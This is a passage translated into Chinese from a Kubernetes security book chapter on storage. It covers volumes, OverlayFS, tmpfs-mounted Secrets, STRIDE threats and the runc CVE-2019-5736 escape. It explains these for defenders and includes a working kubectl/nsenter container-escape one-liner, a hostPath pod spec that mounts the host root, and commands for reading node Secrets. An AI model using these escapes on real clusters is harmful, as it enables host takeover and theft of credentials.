





# 第六章：存储

您的组织以其数据为重要资产。这可能是客户记录和账单详细信息、商业机密或知识产权。客户和信息在公司生命周期内收集的价值重大，而 Hashjack 船长的二进制海盗们只为掠夺而来。

考虑身份欺诈者和国家主义者将为个人信息支付的费用。如果您的数据对他们没有价值，您可能会因勒索而被加密锁定，而攻击者可能在入侵您的系统时额外窃取您的数据。

BCTL 保存客户和员工的个人数据，如位置、医疗和财务记录，以及秘密信息，如信用卡详细信息和交付地址。您的客户信任您将这些详细信息保存在文件系统、数据库或网络存储系统（NFS、对象存储、NAS 等）中。为了从 Kubernetes Pod 中访问这些数据，容器必须使用网络，或者出于数据量较大或较低延迟要求，使用附加到主机系统的磁盘。

将主机文件系统挂载到容器中会打破与主机文件系统的隔离边界，并为攻击者提供潜在的可导航路径。

当容器的存储可以通过网络访问时，最有效的攻击策略是窃取访问密钥并冒充合法应用程序。Hashjack 船长可能会攻击请求密钥的应用程序（容器工作负载）、密钥存储（API 服务器的 Secrets 端点或`etcd`）、或应用程序的主机（工作节点）。当 Secrets 处于静止状态时，它们面临被恶意行为者访问、修改或窃取的风险。

在本章中，我们探讨了文件系统的组成以及如何保护它免受恶意攻击者的侵害。

# 默认设置

Kubernetes 中的应用程序可以在哪里存储数据？Pod 中的每个容器都有自己的本地文件系统，以及在其上的临时目录。这可能是*/tmp*，或者如果内核支持的话可以是*/dev/shm*用于共享内存。本地文件系统与 Pod 的生命周期相关联，并在停止 Pod 时被丢弃。

Pod 中的容器不共享挂载命名空间，这意味着它们无法看到彼此的本地文件系统。为了共享数据，它们可以使用*共享卷*，这是一个文件系统，挂载到容器本地文件系统的目录中，例如*/mnt/foo*。这也与 Pod 的生命周期绑定，并且是从底层主机上的`tmpfs`挂载。

为了在 Pod 生命周期之外持久化数据，使用持久卷（参见“卷和数据存储”）。它们在集群级别进行配置和提供，并在 Pod 终止后保留。

访问其他 Pod 的持久卷对敏感工作负载的保密性构成威胁。

# 威胁模型

存储面临的最大问题是数据泄露。能够访问静态数据的攻击者可能能够提取敏感客户和用户信息，利用新发现的知识攻击其他系统，或设置加密锁定的赎金场景。

###### 提示

配置您的 API 服务器以在 `etcd` 中 [加密静态密码](https://oreil.ly/7KJmT)，并将密码存储在像 KMS 或 Hashicorp Vault 这样的密码存储中，加密文件或物理安全存储中。

Kubernetes 存储使用卷，这与 Docker 的卷概念类似。这些卷用于在容器之外持久保存状态，因为容器设计上无法在其自身文件系统内持久保存文件。卷也用于在一个 pod 内的多个容器之间共享文件。

卷显示为容器内的一个目录，如果卷背后的存储已经填充数据，则可能包括数据。该目录如何由容器运行时添加由卷类型决定。支持许多卷类型，包括历史上易受攻击的协议，如网络文件系统（NFS）和 Internet 小型计算机系统接口（iSCSI），以及插件如 `gitRepo`（一个在容器内挂载之前运行自定义 Git checkout 步骤的空卷）。

###### 警告

`gitRepo` 卷插件要求 `kubelet` 在主机上的 shell 中运行 `git`，这使得 Kubernetes 易受如 [CVE-2017-1000117](https://oreil.ly/wPyPQ) 的 Git 攻击。虽然这需要攻击者具有创建 pod 权限，但这种特性的便利性不足以证明增加的攻击面，因此 [该卷类型已被弃用](https://oreil.ly/SnFim)（有一个 [简单的初始化容器解决方案](https://oreil.ly/bTZ6M)）。

存储与底层硬件集成，因此威胁取决于您如何配置存储。有许多种存储驱动程序，您应选择适合您和团队支持的驱动程序。

当应用程序创建和生成数据时，通过持久化到存储进行存储，通过加密和移动到长期存储介质进行备份，再次从存储中检索以显示给用户，并从短期和长期存储中删除，如 图 6-1 所示，您应关注您的数据。



###### 图 6-1\. 存储数据生命周期

STRIDE 威胁建模框架非常适合这种实践。STRIDE 助记符代表以下内容：

伪造（真实性）

如果攻击者能够更改数据，则可以植入虚假数据和用户账户。

篡改（完整性）

攻击者控制的数据可以被操纵，加密锁定或删除。

否认（不可否认的证据）

有关存储文件元数据的加密签名确保更改的文件无法验证，除非攻击者控制签名密钥并重新生成签名的元数据。

信息泄露（机密性）

许多系统在调试和日志数据中泄露敏感信息，而容器挂载点泄露主机的设备和磁盘抽象。

拒绝服务（可用性）

数据可以被删除，磁盘吞吐量或 IOPS 耗尽，以及使用配额或限制。

提权（授权）

外部挂载可能导致容器越界。

# 卷和数据存储

在本节中，我们回顾 Kubernetes 中相关的存储概念。

## 一切都是字节流

常常有人说，在 Linux 中，“一切皆为文件”。嗯，这并不完全正确：一切都可以被视为“文件”，用于读取或写入，使用文件描述符。把文件描述符想象成指向特定单词所在的页码和书架上的部分，就像对图书馆书籍的引用。

Linux 中有七种类型的文件描述符：文件、目录、字符设备、块设备、管道、符号链接和套接字。这广泛涵盖了文件、硬件设备、虚拟设备、内存和网络。

当我们有一个指向有用内容的文件描述符时，我们可以使用流入它的二进制数据流进行通信（当我们向其写入时），或者从中流出的二进制数据流进行通信（当我们从中读取时）。

对于文件、显示驱动程序、声卡、网络接口以及系统连接和感知的一切来说，都是如此。因此，更正确的说法是在 Linux 中，“一切皆为字节流”。

在谦卑的容器内部，我们只是在运行一个标准的 Linux 进程，因此所有这些对容器也适用。容器只是“Linux”，所以你与其的交互也是通过字节流进行的。

###### 注意

记住，“无状态容器”不希望将重要数据持久化到其本地文件系统，但它们仍然需要输入和输出才能发挥作用。状态必须存在；将其存储在数据库或外部系统中可以实现云原生的好处，如弹性扩展和对故障的韧性。

容器中的所有进程可能在其生命周期的某个时刻都想要写入数据。这可能是向网络进行读写，或者将变量写入内存或临时文件到磁盘，或者从内核读取信息，比如“我可以分配的最大内存是多少？”

当容器的进程想要将数据“写入磁盘”时，它使用容器镜像顶部的读写层。这个层在运行时创建，不会影响其余的不可变镜像。因此，该进程首先将数据写入容器内的本地文件系统，该文件系统是通过 OverlayFS 从主机挂载的。OverlayFS 代理进程正在写入的数据，传输到主机的文件系统（例如，`ext4` 或 `ZFS`）。

## 什么是文件系统？

文件系统是在卷上对数据进行排序和检索的一种方式，类似于文件系统或图书馆索引。

Linux 使用单一虚拟文件系统 (VFS)，在 `/` 挂载点处挂载，将许多其他文件系统组合为一个视图。这是一个抽象，允许标准化的文件系统访问。内核还使用 VFS 作为用户空间程序的文件系统接口。

“挂载”文件系统会创建一个 `dentry`，它代表内核 `vfsmount` 表中的目录项。当我们通过文件系统进行 `cd` 操作时，我们正在与 `dentry` 数据结构的实例交互，以检索我们查看的文件和目录的信息。

###### 提示

我们从攻击者的角度探索文件系统在 Appendix A 中。

可以按需创建虚拟文件系统，例如，在 */proc* 中的 `procfs` 和 */sys* 中的 `sysfs`，或者像 VFS 一样映射到其他文件系统上。

每个非虚拟文件系统必须存在于一个卷上，该卷表示一个或多个存储我们数据的媒介。对于用户来说，一个卷可能是一个单一的带有 `ext4` 文件系统的 SSD，或者是一个 RAID 或 NAS 存储阵列中的多个旋转磁盘，可能显示为单个卷和文件系统。

我们可以像使用图书馆书籍的页面和文本行一样，物理读取或写入数据到类似 SSD 或旋转磁盘这样的“块设备”。这些抽象在 Figure 6-2 中展示。



###### 图 6-2\. Linux 存储卷元素

其他类型的虚拟文件系统也没有卷，例如 `udev`，即“用户空间 /dev” 文件系统，管理我们 */dev* 目录中的设备节点，以及 `procfs`，通常映射到 */proc* 并通过文件系统方便地公开 Linux 内核内部。

用户与文件系统进行交互，但卷可能是本地或远程磁盘、单个磁盘、分布式数据存储跨多个磁盘、虚拟文件系统或这些组合。

Kubernetes 允许我们挂载各种不同类型的存储卷，但是对于最终用户来说，存储卷的抽象是透明的。由于存储卷与内核的协议，对于用户来说，每个存储卷都表现为一个文件系统。

## 容器卷与挂载

当容器启动时，容器运行时将文件系统挂载到其挂载命名空间中，如 Docker 中所示：

```
$ docker run -it sublimino/hack df -h
Filesystem             Size  Used Avail Use% Mounted on
overlay                907G  532G  329G  62% /
tmpfs                   64M     0   64M   0% /dev
shm                     64M     0   64M   0% /dev/shm
/dev/mapper/tank-root  907G  532G  329G  62% /etc/hosts
tmpfs                   32G     0   32G   0% /proc/asound
tmpfs                   32G     0   32G   0% /proc/acpi
tmpfs                   32G     0   32G   0% /sys/firmware
```

注意，Docker 看起来会挂载主机的 */etc/hosts* 文件，而这种情况下是设备映射器的“特殊文件”。还有特殊的文件系统，包括 `/dev/mapper/` 设备映射器。还有更多，包括 `proc`、`sysfs`、`udev` 和 `cgroup2` 等。

## OverlayFS

如图 6-3 所示的 OverlayFS 通过组合多个只读挂载点创建单个文件系统。为了向文件系统写回，它使用一个“写时复制”层，该层位于其他层之上。这使得它对容器特别有用，但也适用于可引导的“Live CD”（可用于运行 Linux）和其他只读应用程序。



###### 图 6-3\. OverlayFS（来源：[内核 OverlayFS](https://oreil.ly/9mMA7)）

容器文件系统的根由 OverlayFS 提供，我们可以看到它泄漏了主机的磁盘元数据，并显示了磁盘的大小和使用情况。我们可以通过将 */* 和 */etc/hosts* 目录传递给 `df` 来比较行：

```
$ docker run -it sublimino/hack df -h / /etc/hosts
Filesystem             Size  Used Avail Use% Mounted on
overlay                907G  543G  319G  64% /
/dev/mapper/tank-root  907G  543G  319G  64% /etc/hosts
```

Podman 也是如此，尽管它从不同的文件系统挂载了 */etc/hosts*（请注意这使用了 `sudo`，而不是无根）：

```
$ sudo podman run -it docker.io/sublimino/hack:latest df -h / /etc/hosts
Filesystem      Size  Used Avail Use% Mounted on
overlay         907G  543G  318G  64% /
tmpfs           6.3G  3.4M  6.3G   1% /etc/hosts
```

值得注意的是，无根 Podman 使用用户空间文件系统 `fuse-overlayfs` 来配置文件系统时避免请求根权限。这限制了文件系统代码中的错误影响，因为它不是由根用户拥有，所以不是特权升级的潜在途径：

```
$ podman run -it docker.io/sublimino/hack:latest df -h / /etc/hosts
Filesystem      Size  Used Avail Use% Mounted on
fuse-overlayfs  907G  543G  318G  64% /
tmpfs           6.3G  3.4M  6.3G   1% /etc/hosts
```

如果卷持久化数据，最终必须将其映射到一个或多个物理磁盘上。这为什么重要？因为这留下了攻击者可以追溯到主机的痕迹。如果与该卷交互的任何软件存在错误或配置错误，主机可能会受到攻击。


Captain Hashjack 可能会尝试将脚本或二进制文件放入卷中，然后导致主机在不同的进程命名空间中执行它。或者尝试写入一个符号链接，该符号链接在主机的挂载命名空间中读取和解析时指向合法文件。如果攻击者提供的输入可以在不同的命名空间中“上下文外”运行，则可能破坏容器隔离。

容器为我们提供了一种软件定义的隔离，使我们产生与主机隔离的错觉，但卷是一个显而易见的抽象泄漏的地方。磁盘在历史上容易出错且难以处理。主机文件系统上的磁盘设备并未通过容器运行时真正隐藏在容器化进程之外。相反，挂载命名空间调用了 `pivot_root`，我们正在操作主机文件系统的一个子集。

从攻击者的角度来看，看到主机的磁盘在 */dev/mapper/tank-root* 上提醒我们探索可见的地平线并深入探索。

## `tmpfs`

文件系统允许客户端读取或写入数据。但当被告知写入数据时，它不一定要写入数据，或者甚至持久化该数据。文件系统可以随心所欲地做任何事情。

通常文件系统的数据会存储在物理磁盘或磁盘集合上。在某些情况下，如临时文件系统 `tmpfs`，所有数据都在内存中，数据根本不会永久存储。

###### 注意

`tmpfs`取代了`ramfs`成为 Linux 首选的临时文件系统。它通过在内存中创建一个虚拟文件系统，使主机内存的预分配部分可用于文件系统操作。这对于脚本和数据密集型文件系统进程可能特别有用。

容器使用`tmpfs`文件系统来隐藏主机文件系统路径。这被称为“掩盖”，即隐藏路径或文件对用户来说。

Kubernetes 也使用`tmpfs`将配置注入到容器中。这是“12 因素应用”原则：配置不应该在容器内部；它应该在运行时添加，以期望在不同环境中有所不同。

与所有文件系统挂载一样，主机上的 root 用户可以看到一切。它需要能够调试机器，因此这是一个通常且预期的安全边界。

Kubernetes 可以将 Secret 文件挂载到各个容器中，并使用`tmpfs`来实现。每个容器 Secret，如服务帐户令牌，都有一个从主机到包含 Secret 的容器的`tmpfs`挂载。

其他挂载命名空间将 Secrets 与其他容器隔离，但由于主机创建和管理所有这些文件系统，主机 root 用户可以读取由`kubelet`为其托管的 pod 挂载的所有 Secrets。

作为主机上的 root 用户，我们可以使用`mount`命令查看主机上运行的 pod 所挂载的所有 Secrets：

```
$ mount | grep secret
tmpfs on /var/lib/kubelet/.../kubernetes.io~secret/myapp-token-mwvw2 type tmpfs (rw,relatime)
tmpfs on /var/lib/kubelet/.../kubernetes.io~secret/myapp-token-mwvw2 type tmpfs (rw,relatime)
...

```

每个挂载点都是一个独立的文件系统，因此 Secrets 被存储在每个文件系统中的文件中。这利用了 Linux 权限模型来确保机密性。只有容器中的进程被授权读取挂载到其中的 Secrets，而且像往常一样，root 是全知全能的，可以看到并做几乎任何事情：

```
gke-unmarred-poverties-2-default-pool-c838da77-kj28 ~ # ls -lasp \
    /var/lib/kubelet/pods/.../volumes/kubernetes.io~secret/default-token-w95s7/
total 4
0 drwxrwxrwt 3 root root  140 Feb 20 14:30 ./
4 drwxr-xr-x 3 root root 4096 Feb 20 14:30 ../
0 drwxr-xr-x 2 root root  100 Feb 20 14:30 ..2021_02_20_14_30_16.258880519/
0 lrwxrwxrwx 1 root root   31 Feb 20 14:30 ..data -> ..2021_02_20_14_30_16.258880519/
0 lrwxrwxrwx 1 root root   13 Feb 20 14:30 ca.crt -> ..data/ca.crt
0 lrwxrwxrwx 1 root root   16 Feb 20 14:30 namespace -> ..data/namespace
0 lrwxrwxrwx 1 root root   12 Feb 20 14:30 token -> ..data/token

```

## 卷挂载破坏容器隔离性

我们认为任何引入到容器中的外部内容，或者任何安全控制的放松，都会增加容器安全性的风险。挂载命名空间经常用于将只读文件系统挂载到 pod 中，出于安全考虑，应尽可能始终保持只读。

如果将 Docker 服务器的客户端面向的套接字挂载到容器中作为读写，那么容器就能够使用 Docker 客户端在同一主机上启动一个新的特权容器。

特权模式移除了所有安全功能，并共享主机的命名空间和设备。因此，在特权容器中的攻击者现在能够打破容器的限制。

最简单的方法是使用命名空间操作工具`nsenter`，它将进入现有的命名空间，或在全新的命名空间中启动一个进程。

这个命令与`docker exec`非常相似：它将当前或新的进程移动到指定的命名空间或多个命名空间中。这样做的效果是在不同的命名空间环境之间传输 shell 会话的用户。

###### 注意

`nsenter` 被视为调试工具，避免进入 `cgroups` 以逃避资源限制。Kubernetes 和 `docker exec` 遵守这些限制，因为资源耗尽可能会 DOS 整个节点服务器。

在这里，我们将在 PID 1 的挂载命名空间中启动 Bash。理解从主机挂载到容器中的 */proc* 文件系统至关重要。从主机挂载到容器的任何内容都可能给我们攻击的机会：

```
$ nsenter --mount=/proc/1/ns/mnt /bin/bash
```

这条命令在 PID 1 的挂载命名空间中启动 Bash。如果省略命令，则默认使用 `/bin/sh`。

如果调用进程位于具有自己挂载命名空间的容器中，则此命令在相同的容器命名空间中启动 Bash，而不是主机的命名空间。

然而，如果调用进程共享主机的 PID 命名空间，则此命令将利用 */proc/1/ns/mnt* 链接。共享主机的 PID 命名空间将显示主机的 */proc* 在容器的 */proc* 中，显示与目标命名空间中以前相同的进程以及每个其他进程的附加进程。

[Duffie Cooley](https://oreil.ly/KijgS) 和 [Ian Coldwater](https://oreil.ly/imCJW) 第一次见面时联合编写了标志性的攻击性 Kubernetes 一行代码（见 图 6-4）。



###### 图 6-4\. Duffie Cooley 的强大巫术，使用 `nsenter` 在允许特权容器和 hostPID 的 Kubernetes 集群中逃逸容器

让我们仔细看看：

```
$ kubectl run r00t --restart=Never \
  -ti --rm --image lol \
  --overrides '{"spec":{"hostPID": true, \
  "containers":[{"name":"1","image":"alpine",\
  "command":["nsenter","--mount=/proc/1/ns/mnt","--",\
  "/bin/bash"],"stdin": true,"tty":true,\
  "securityContext":{"privileged":true}}]}}' 

r00t / # id 
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),...

r00t / # ps faux 
USER     PID %CPU %MEM  VSZ  RSS TTY   STAT START  TIME COMMAND
root       2  0.0  0.0    0    0 ?     S    03:50  0:00 [kthreadd]
root       3  0.0  0.0    0    0 ?     I<   03:50  0:00  \_ [rcu_gp]
root       4  0.0  0.0    0    0 ?     I<   03:50  0:00  \_ [rcu_par_gp]
root       6  0.0  0.0    0    0 ?     I<   03:50  0:00  \_ [kworker/0:0H-kblockd]
root       9  0.0  0.0    0    0 ?     I<   03:50  0:00  \_ [mm_percpu_wq]
root      10  0.0  0.0    0    0 ?     S    03:50  0:00  \_ [ksoftirqd/0]
root      11  0.2  0.0    0    0 ?     I    03:50  1:11  \_ [rcu_sched]
root      12  0.0  0.0    0    0 ?     S    03:50  0:00  \_ [migration/0]
```


运行 `nsenter` 的一行命令。


检查进程命名空间中的 root 权限。


检查内核 PID 以验证我们是否在根命名空间中。

形式 `nsenter --all --target ${TARGET_PID}` 用于进入进程的所有命名空间，类似于 `docker exec`。

这与从主机挂载的卷不同：

```
apiVersion: v1
kind: Pod
metadata:
  name: redis
spec:
  containers:
  - name: redis
    image: redis
    volumeMounts:
    - name: redis-storage
      mountPath: /data/redis
  volumes:
  - name: redis-storage
    hostPath:
     path: /
  nodeName: master
```

此 `redis` 卷将主机的磁盘挂载到容器中，但不在相同的进程命名空间中，因此无法影响从该磁盘启动的应用程序实例（如 *sshd*、*systemd* 或 `kubelet`）。它可以更改配置（包括 *crontab*、*/etc/shadow*、*ssh* 和 *systemd* 单元文件），但不能发信号让进程重新启动。这意味着等待事件（如重新启动或守护进程重新加载）来触发恶意代码、反向 shell 或植入物。

让我们继续讨论一个特殊情况下的文件系统漏洞。

## /proc/self/exe CVE

容器内部的文件系统创建在主机的文件系统上，因此无论多么小，仍然存在一定的逃逸可能性。

这种情况可能出现在容器运行时存在漏洞或对与内核交互方式的错误假设时。例如，如果未正确处理链接或文件描述符，则可能存在发送恶意输入的机会，从而导致容器逃逸。

其中一个错误的假设源于对*/proc/self/exe*的使用，CVE-2019-5736 能够突破并影响主机文件系统。每个进程命名空间在*/proc*虚拟文件系统中都有这个伪文件挂载。它指向当前正在运行的进程（*self*）启动的位置。在这种情况下，它被重新配置为指向主机文件系统，并随后用于获取主机的 root 权限。

###### 注意

CVE-2019-5736 是`runc`的*/proc/self/exe*漏洞，在`runc` 1.0-rc6 及之前版本中存在（被 Docker、Podman、Kubernetes、CRI-O 和`containerd`使用）。攻击者可以通过利用在这些类型的容器中以 root 身份执行命令的能力，覆盖主机的`runc`二进制文件（从而获取主机 root 访问权限）。这是因为与*/proc/self/exe*相关的文件描述符处理不当。

符号链接`self`指向`clone`系统调用的父进程。所以首先`runc`运行了`clone`，然后在容器内部，子进程执行了`execve`系统调用。该符号链接错误地被创建为指向父进程的`self`而不是子进程。关于此问题在[LWN.net](https://oreil.ly/8tbdA)上有更多背景信息。

在容器启动过程中——当容器运行时正在解压文件系统层以准备`pivot_root`进入其中时——这个伪文件指向容器运行时，例如`runc`。

如果一个恶意容器镜像能够使用这个链接，它可能能够突破到主机上。其中一种方法是将容器的入口点设置为一个符号链接到*/proc/self/exe*，这意味着容器的本地*/proc/self/exe*实际上指向主机文件系统上的容器运行时。详细信息请参见图 6-5。

此外，为了完成主机升级，还需要对共享库进行攻击，但这并不复杂，一旦完成，攻击者将留在容器内部，并具有对容器外部的`runc`二进制文件的写访问权限。

这种攻击的一个有趣特点是，它可以完全从一个恶意镜像中执行，不需要外部输入，并且能够以 root 身份在主机上执行任何有效负载。这是一种具有云原生倾向的经典供应链攻击。它可以隐藏在一个合法的容器中，并强调了扫描已知漏洞的重要性，但同时也指出这并不能捕捉所有问题，需要入侵检测来实现完整的防御姿态。



###### 图 6-5\. */proc/self/exe*突破的图示（来源：[“容器逃逸汇编”](https://oreil.ly/JBzVW)）

###### 注意

显然，CVE-2019-5736 的影响并非链接的预期使用方式，而容器运行时允许容器镜像访问它的假设仅仅是未经验证的。在许多方面，这突显了安全性和测试的困难，必须考虑恶意输入、边缘情况和意外代码路径。这个漏洞是由关注安全性的核心 `runc` 开发人员 Aleksa Sarai 发现的，之前没有证据表明它在野外被利用过。

# 静态敏感信息

在接下来的章节中，我们讨论静态敏感信息，特别是密钥管理。在 Kubernetes 中，[Secrets](https://oreil.ly/m8B8Y) 默认以未加密的方式存储在 `etcd` 中，并可以通过卷或环境变量在 pod 的上下文中使用。

## 挂载的 Secrets

运行在工作节点上的 `kubelet` 负责将卷挂载到 pod 中。这些卷包含明文 Secrets，它们在运行时被挂载到 pod 中使用。Secrets 用于与其他系统组件交互，包括用于服务账户 Secrets 的 Kubernetes API 授权，或用于外部服务的凭据。

###### 注意

Kubernetes v1.21 引入了不可变的 ConfigMaps 和 Secrets，在创建后无法更改：

```
apiVersion: v1
kind: Secret
# ...
data:
  ca.crt: LS0tLS1CRUdAcCE55B1e55ed...
  namespace: ZGVmYXVsdA==
  token: ZXlKaGJHY2lPC0DeB1e3d...
immutable: true
```

更新配置或密钥必须通过创建新的密钥，然后创建引用它的新 pod 来完成。

如果黑客能够 compromise 工作节点并获得 root 权限，他们可以读取这些 Secrets 和主机上每个 pod 的每个 Secret。这意味着节点上的 root 用户与其运行的所有工作负载一样强大，因为它可以访问它们的所有身份。

这些标准服务账户令牌是有限的 JSON Web 令牌（JWTs），永不过期，因此没有自动轮换机制。

攻击者想要窃取您的服务账户令牌，以获得对工作负载和数据的更深入访问。服务账户令牌应定期轮换（通过从 Kubernetes Secrets API 中删除它们，其中一个控制器会注意到并重新生成它们）。

更有效的流程是绑定的服务账户令牌，它们通过完整的 JWT 实现扩展了标准服务账户令牌，用于过期和受众。绑定的服务账户令牌由 `kubelet` 请求，并由 API 服务器发放。

###### 注意

[绑定的服务账户令牌](https://oreil.ly/o0zkY) 可以被应用程序以与标准服务账户令牌相同的方式使用，用于验证工作负载的身份。

NodeAuthorizer 确保 `kubelet` 仅为其应该运行的 pod 请求令牌，以减轻被盗 `kubelet` 凭据的风险。绑定令牌的权限降低了受损范围和利用时间窗口。

## 攻击挂载的 Secrets

Kubernetes 提权的一种流行机制是服务账户滥用。当 Captain Hashjack 获得对 pod 的远程访问时，他们首先会检查服务账户令牌。如果挂载了服务账户令牌，则可以使用 `selfsubjectaccessreviews.authorization.k8s.io` 和 `selfsubjectrulesreviews` API 枚举可用权限（`kubectl auth can-i --list` 将显示哪些权限可用）。

或者，如果我们可以拉取二进制文件，[rakkess](https://oreil.ly/n5UVm) 展示了一个更好的视图。这里是一个过度权限的服务账户：

```
$ rakkess 
NAME                                             LIST  CREATE  UPDATE DELETE
apiservices.apiregistration.k8s.io                ✔      ✔      ✔     ✔
...
secrets                                           ✔      ✔      ✔     ✔
selfsubjectaccessreviews.authorization.k8s.io                           ✔
